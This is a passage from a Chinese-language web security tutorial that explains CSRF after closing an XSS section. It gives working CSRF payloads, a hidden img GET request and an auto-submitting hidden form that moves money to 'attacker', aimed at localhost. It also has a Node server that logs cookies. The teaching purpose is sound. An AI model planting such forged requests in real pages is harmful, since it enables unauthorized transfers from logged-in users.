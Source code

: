   ```http
  Content-Security-Policy: default-src 'self'; script-src 'nonce-{随机值}'
  ```

- **框架防护**：React自动转义、Vue的 `v-html` 白名单

### 2. CSRF 跨站请求伪造

> 利用用户已登录的状态，诱使用户在不知情的情况下执行恶意请求

#### 攻击实现

- **GET请求**

  通过邮件、链接等方式诱导用户访问该页面，浏览器会自动加载资源并发送 GET 请求

  ```html
  <img
    src="http://localhost:3000/?to=attacker&amount=1000"
    width="0"
    height="0"
  />
  ```

- **POST请求**

  钓鱼页面内嵌隐藏表单，通过 JavaScript 自动提交

  ```html
  <form id="csrfForm" action="http://localhost:3000" method="POST">
    <input type="hidden" name="amount" value="1000" />
    <input type="hidden" name="toAccount" value="attacker-account" />
  </form>
  <script>
    document.getElementById('csrfForm').submit()
  </script>
  ```

:::details 本地模拟

设置模拟 cookie 信息

```js
document.cookie =
  'session=123; Path=/; Domain=localhost; SameSite=None; Secure=false'
```

后台接收cookie

```js
// 导入 http 模块
const http = require('http')

// 创建服务器
const server = http.createServer((req, res) => {
  // 打印请求信息
  console.log(`请求cookie: ${req.headers.cookie}`)

  // 设置响应头
  res.setHeader('Access-Control-Allow-Origin', '*') // 允许所有源
  res.writeHead(200, { 'Content-Type': 'text/plain; charset=utf-8' })

  // 发送响应
  res.end('请求已收到\n')
})

// 服务器监听指定端口
const PORT = 3000
server.listen(PORT, () => {
  console.log(`服务器正在运行，访问 http://localhost:${PORT}`)
})
```